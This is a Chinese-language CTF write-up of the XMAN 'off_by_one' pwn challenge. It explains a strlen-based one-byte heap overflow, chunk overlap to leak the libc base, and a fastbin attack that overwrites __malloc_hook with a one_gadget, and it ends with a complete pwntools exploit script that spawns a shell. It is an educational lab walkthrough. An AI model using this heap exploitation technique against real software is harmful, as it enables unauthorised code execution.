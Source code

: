 ```yaml
---
title: Xman Off_By_One
date: 2018-08-25 08:37:40
tags: [CTF, PWN]
categories: XMAN夏令营
---
```

## xman夏令营 off_by_one
​	一道off_by_one的题，做了一天，题目有些地方还是有点骚的，最近感触很深，许多题目你知道漏洞点在哪里，利用手法也清楚，但是写exp的时候会遇到很多奇怪的情况就是达不到你想要的效果或者是不能getshell，由此我觉得一个洞，你知道洞在哪怎么利用，和你真正能写exp弹shell之间差别还是有的，前者考察的你对漏洞和glibc内存管理模式的熟悉，后者可能就需要一些长期以来写exp和调试的经验，emmm，之前一直注重的是审漏洞，现在才发现审到漏洞后写出脚本也很考验能力的。  
<!--more-->
拿到题目扔ida一看发现居然开了pie，然后看new函数，是个正常的new，用户输入想要malloc的大小，程序进行malloc，接着看delete函数，free掉指针后将chunk list置0，没啥问题，最后看下edit，发现了问题，edit中对chunk进行修改用的是通过strlen当前chunk，得到当前chunk中存储的字符串长度，再进行重新读入相同大小的数据。这里就有问题了，如果strlen的特性是读到null才停，而如果前一个chunk用户数据域全部被使用，则strlen会将下一个chunk的prev_size域也算进去，这样edit时将会多处一个字节的空间给用户输入。  
	找到漏洞在哪儿后开始结合程序的保护手段进行分析利用方式，首先你需要泄露libc基址，如何泄露，想想刚才找到的洞，发现如果只能对next chunk的prev_size进行一个字节的写入，好像很难进行构造，而如果能利用chunk对齐的特性，使前一个chunk复用后一个chunk的prev_size域，这样的话如果能写入一个字节就能对next chunk的size域进行改写了。改写size域后可以通过伪造chunk和更改其对应的元数据域进行overlap，让前一个chunk包含后一个chunk，如果前一个前一个chunk是再unsorted bin中，那么修改其size域的元数据使其包含后一个chunk，此时再malloc一个和前一个chunk相同大小的chunk，这样glibc的分配器由于在其它bin中找不到恰好合适的chunk会将unsorted bin切一块下来，而剩下的部分继续保存在unsorted bin中，同时在chunk list中，还有一个ptr指向那块被包含的chunk，如果堆快大小是精心构造过的，那么可以让chunk list中的那个之前被包含chunk的ptr指向切剩下来的unsorted bin中的free chunk。 

​	这样就产生了野指针，而且由于被包含的chunk是unsorted bin中的唯一元素，所以可以顺理成章的泄露main_arena+88的地址，之后就能得到libc基地址和其它一些地址了。那之后该如何去做，现在我们有libc地址，和一个可以进任意改写的free chunk，既然chunk元数据域可以任意写，那能否使用通过伪造chunk进行unlink，显然是比较难的，因为虽然chunk list在bss段，但是代码段的载入基址未知，所以想直接写bss段肯定是非常难的，或者有什么其它骚思路可以写其它区域，可能利用起来也比较麻烦，而且要是知道text段载入基址的话，就能直接构造unlink泄露got表地址，然后写got表了，连main_arena都不用泄露，没开pie的话倒是可以unlink。  
	可是问题是这道题目是开了pie的，所以unlink没戏。  
想了一下如果构造的时候被包含的chunk大小属于fastbin，那么进行一次malloc+free后就能得到一个fastbin中的chunk，由于可以任意修改chunk的数据域，那么修改fd为__malloc_hook，刚才已经说了因为开启pie所以不好写got。之后house of spirit，写__malloc_hook为one_gadget，就能getshell了。  
另外需要注意的是不能直接写fd为malloc_hook地址，这里会把fd指向的chunk的size域和fastbins中对应bin的大小做对比，同时会把add chunk时输入的大小和fd指向的chunk的size做对比，这里fd如果指向__malloc_hook-0x13的话，则size区域最后两个字节为0x7f，这里由于是在fastbin中，大小的话只看前一个字节，后一个字节只看后三位状态位，所以之前构造的被包含的chunk大小一定要是0x70字节大小(allocated chunk状态下)。还有因为这题free hook周边没有满足检查条件的数据(全是null)，所以这里用的是__malloc_hook，其实__free_hook也是可以用的。

exp如下：

```
from pwn import *
p=process('./offbyone')
gdb.attach(p)
def add(x):
	p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('length: ')
	p.sendline(str(len(x)))
	p.recvuntil('your note:\n')
	p.sendline(x)

def edit(idx,x):
	p.recvuntil('>> ')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(idx))
	p.recvuntil('your note:\n')
	p.sendline(x)

def dele(idx):
	p.recvuntil('>> ')
	p.sendline('3')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def show(idx):
	p.recvuntil('>> ')
	p.sendline('4')
	p.recvuntil('index: ')
	p.sendline(str(idx))
	
add(0x28*'a')
add(0xf8*'b')
add(0x68*'c')
add(0x60*'d')
dele(1)
edit(0,0x28*'a'+'\x71'+'\x01')
edit(2,0x60*'c'+p64(0x170)+'\x70')
add(0xf8*'0')
show(2)
main_arena_88=u64(p.recv(6).ljust(8,'\x00'))
log.info('main_arena+88 > '+hex(main_arena_88))
libc_base=main_arena_88-0x3c4b78
log.info('libc_base > '+hex(libc_base))
malloc_hook=libc_base+0x3c4b10
log.info('malloc_hook > '+hex(malloc_hook))
free_hook=libc_base+0x3c67a8
log.info('free_hook > '+hex(free_hook))
#edit(2,p64(malloc_hook)+p64(malloc_hook))
add(0x68*'a')
one_gadget=0x45216+libc_base
one_gadget=0x4526a+libc_base
one_gadget=0xf02a4+libc_base
#one_gadget=0xf1147+libc_base
log.info('one_gadget > '+hex(one_gadget))
dele(3) 
dele(2) #chunk[2] move from unsorted bin -> fastbins
'''
edit(4,p64(free_hook-0x13)[0:6])
'''
edit(4,p64(malloc_hook-0x13)[0:6])
add(0x68*'a')
add(3*'0'+p64(one_gadget)+'\n'*85)
dele(3)
p.interactive()

```

